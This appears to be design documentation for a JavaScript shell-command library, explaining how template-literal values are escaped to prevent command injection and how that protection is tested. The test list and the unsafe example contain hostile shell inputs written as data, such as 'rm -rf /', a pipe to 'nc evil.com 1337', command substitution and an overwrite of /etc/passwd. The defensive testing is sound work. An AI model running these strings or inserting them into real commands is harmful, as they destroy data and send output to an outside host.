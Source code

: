 **Security Benefits**: Eliminates command injection vulnerabilities by rejecting dangerous inputs at the source rather than trying to escape them.

**Compatibility Benefits**: Preserves CLI compatibility by not forcing naming conventions - users can use `someKey`, `some_key`, `SOME_KEY`, or any valid identifier pattern.

**Template Literal Security Requirements:**

The shell execution system must properly escape template literal values to prevent injection vulnerabilities. A naive implementation using only `String.raw()` would be vulnerable:

```javascript
// UNSAFE - do not implement this way:
function buildCommand(strings, values) {
  return String.raw({ raw: strings }, ...values);
}
```

Such an implementation would be vulnerable to shell injection:

```javascript
// UNSAFE EXAMPLE:
const userInput = "file.txt; rm -rf /";
await sh`cat ${userInput}`;  // Would execute: cat file.txt; rm -rf /
```

**Secure Implementation:**

Template literal values must be properly escaped for shell safety:

```javascript
function escapeShellArg(arg) {
  // For shell mode: wrap in single quotes and escape internal single quotes
  return "'" + String(arg).replace(/'/g, "'\"'\"'") + "'";
}

function buildCommand(strings, values) {
  let result = strings[0];
  for (let i = 0; i < values.length; i++) {
    result += escapeShellArg(values[i]) + strings[i + 1];
  }
  return result;
}
```

**Security Testing Strategy:**

Comprehensive tests verify shell injection protection:

```javascript
// Test cases for shell escaping
const maliciousInputs = [
  "file.txt; rm -rf /",           // Command injection
  "file.txt && rm important.txt", // Command chaining
  "file.txt || echo pwned",       // Command alternation
  "file.txt | nc evil.com 1337",  // Pipe to network
  "file.txt `whoami`",            // Command substitution
  "file.txt $(whoami)",           // Command substitution (modern)
  "file.txt > /etc/passwd",       // Output redirection
  "file.txt' || echo pwned || '", // Quote escaping attempt
  "'file.txt'; echo pwned; #",    // Quote breaking
];

// Each input should be safely escaped when used with sh`...`
for (const malicious of maliciousInputs) {
  test(`sh escapes malicious input: ${malicious}`, async () => {
    const result = await sh.safe`echo "Processing: ${malicious}"`;
    // Should only echo the literal string, no command execution
    assert(result.output.includes(malicious));
    assert(!result.output.includes("pwned"));
```

[nodejs-spawn]: https://exploringjs.com/nodejs-shell-scripting/